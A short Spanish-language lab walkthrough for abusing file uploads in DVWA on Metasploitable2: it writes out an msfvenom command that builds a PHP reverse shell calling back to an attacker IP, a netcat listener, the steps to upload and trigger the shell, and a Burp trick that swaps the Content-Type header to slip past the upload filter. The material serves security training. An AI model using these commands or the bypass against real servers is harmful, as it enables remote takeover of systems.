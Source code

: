# File Upload Abuse Parte 1
Cambiar la seguridad del sitio a **Low**.  

Crear un reverse shell con `msfvenom`:  
`msfvenom -p php/reverse_php LHOST=<IP DEL ATACANTE> LPORT=<ALGUN PUERTO PARA ESCUCHAR> -f raw > msfvenom-shell.php`  

Confirmar que se creó el shell corriendo el comando `ls`.  

Subir el shell al servidor Metasploitable2.  

Abrir otra ventana de terminal para ejecutar una instancia de Netcat. Netcat es una utilidad que va a escuchar por cualquier petición al puerto que definimos anteriormente.  
`nc -lvp <EL PUERTO QUE PUSIMOS ARRIBA>`

Ahora navegar a la página donde se subió el shell. Ejemplo: http://192.168.100.93/dvwa/hackable/uploads/msfvenom-shell.php  
El navegador no debería desplegar nada, pero en la terminal donde tenemos Netcat, vamos a obtener información de que se lograron conectar.  

Ahora se pueden ejecutar comandos remotamente, por ejemplo `ls`.  

---

# File Upload Abuse Parte 2
Cambiar la seguridad del sitio a **Medium** y reintentar el ataque anterior.  
El servidor no va a dejar subir el archivo por el tipo de archivo que es. 

Para burlar esto, interceptar el request con Burp y seguidamente alterar el paquete de la siguiente forma:  

En la línea donde dice:  

`Content-Type: application/x-php`  

Cambiar el header a:  

`Content-Type: image/jpeg`  

De esta forma el sevidor piensa que está recibiendo un archivo de imagen.

